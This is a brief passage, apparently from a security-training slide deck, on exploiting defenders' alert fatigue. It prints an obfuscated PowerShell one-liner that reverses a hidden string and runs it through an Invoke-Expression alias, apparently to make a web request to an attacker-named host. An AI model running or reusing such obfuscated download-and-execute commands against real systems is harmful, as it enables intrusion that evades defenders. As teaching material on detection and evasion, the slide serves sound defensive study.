

# Leveraging Alert Fatigue
Let's switch over to the attacker mindset and subvert the defender. We know that this will raise red flags.

"SET  ("l"+"s4W")  (  [chAR[]] "))')”o'+'i'+'.'+'2crekcah//:'+'ptth“ '+'tseu'+'qerbe'+'w-e'+'k'+'o'+'v'+'n'+'i( noit'+'acsufb'+'o'+'-e'+'k'+'ovnI'(()'x'+]31[DilLEhs$+]1[diLLEHs$ ( & "  );  [ArrAY]::reveRse($ls4W); .( $psHOMe[4]+$psHOMe[34]+'X')( -JoIn$ls4W)"

So, let's just assume our commands will be alerted to. However, we also know that they would get a lot of similar false positives.